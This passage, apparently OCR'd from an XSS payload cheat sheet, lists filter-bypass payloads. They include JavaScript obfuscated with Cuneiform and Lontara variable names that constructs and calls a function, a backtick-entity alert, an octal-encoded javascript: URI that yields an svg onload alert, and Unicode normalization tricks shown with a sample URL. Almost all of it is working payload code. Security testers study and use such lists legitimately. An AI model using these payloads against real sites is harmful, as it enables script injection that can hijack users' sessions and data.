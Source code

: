 ```javascript
𒀀='',𒉺=!𒀀+𒀀,𒀃=!𒉺+𒀀,𒇺=𒀀+{},𒌐=𒉺[𒀀++],
𒀟=𒉺[𒈫=𒀀],𒀆=++𒈫+𒀀,𒁹=𒇺[𒈫+𒀆],𒉺[𒁹+=𒇺[𒀀]
+(𒉺.𒀃+𒇺)[𒀀]+𒀃[𒀆]+𒌐+𒀟+𒉺[𒈫]+𒁹+𒌐+𒇺[𒀀]
+𒀟][𒁹](𒀃[𒀀]+𒀃[𒈫]+𒉺[𒀆]+𒀟+𒌐+"(𒀀)")()
```

### Bypass using Lontara

```javascript
ᨆ='',ᨊ=!ᨆ+ᨆ,ᨎ=!ᨊ+ᨆ,ᨂ=ᨆ+{},ᨇ=ᨊ[ᨆ++],ᨋ=ᨊ[ᨏ=ᨆ],ᨃ=++ᨏ+ᨆ,ᨅ=ᨂ[ᨏ+ᨃ],ᨊ[ᨅ+=ᨂ[ᨆ]+(ᨊ.ᨎ+ᨂ)[ᨆ]+ᨎ[ᨃ]+ᨇ+ᨋ+ᨊ[ᨏ]+ᨅ+ᨇ+ᨂ[ᨆ]+ᨋ][ᨅ](ᨎ[ᨆ]+ᨎ[ᨏ]+ᨊ[ᨃ]+ᨋ+ᨇ+"(ᨆ)")()
```

More alphabets on http://aem1k.com/aurebesh.js/#

### Bypass using ECMAScript6

```html
<script>alert&DiacriticalGrave;1&DiacriticalGrave;</script>
```

### Bypass using Octal encoding

```javascript
javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76'
```

### Bypass using Unicode

```javascript
Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

Unicode character U+FF1C FULLWIDTH LESS­THAN SIGN (encoded as %EF%BC%9C) was
transformed into U+003C LESS­THAN SIGN (<)

Unicode character U+02BA MODIFIER LETTER DOUBLE PRIME (encoded as %CA%BA) was
transformed into U+0022 QUOTATION MARK (")

Unicode character U+02B9 MODIFIER LETTER PRIME (encoded as %CA%B9) was
transformed into U+0027 APOSTROPHE (')

E.g : http://www.example.net/something%CA%BA%EF%BC%9E%EF%BC%9Csvg%20onload=alert%28/XSS/%29%EF%BC%9E/
%EF%BC%9E becomes >
%EF%BC%9C becomes <
```
